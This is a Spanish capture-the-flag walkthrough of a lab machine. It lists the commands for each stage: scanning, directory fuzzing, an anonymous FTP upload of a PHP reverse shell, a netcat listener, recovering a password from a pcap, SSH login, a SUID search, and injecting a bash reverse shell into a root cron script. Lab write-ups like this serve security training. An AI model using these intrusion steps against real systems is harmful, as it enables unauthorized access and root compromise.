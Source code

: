 
Lo primero que haremos será hacer un nmap con el siguiente comando: sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79


Ahora intentamos hacer fuzzing gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt y miramos y hay un /files si accedemos pordemos ver que hay un servidor ftp


Intentamos conectarnos con anonymous con el siguiente comando: ftp anonymous@10.10.92.79

![img01](img/img01.png)

Una vez dentro haremos un put e intentaremos meter una reverse shell: put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php


Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: nc -lvnp 1234  y ya hemos entrado, ahora vamos a upgradear la shell con: python -c 'import pty; pty.spawn("/bin/bash")'

![img02](img/img02.png)

Y ya tenemos la primera flag.

Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: cp /incidents/suspicious.pcapng /var/www/html/files/ftp


Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

![img03](img/img03.png)

Y ahora intentamos entrar por ssh con el siguiente comando: ssh lennie@10.10.92.79 y ya estamos dentro.

![img04](img/img04.png)

Si hacemos un cat user.txt vemos la segunda flag.

Ahora haremos el siguiente comando para ver los binarios: find / -perm -u=s -type f 2>/dev/null

Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se esta actulizando, por lo tanto lleva un crontab y una tarea programada.

![img05](img/img05.png)

Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.

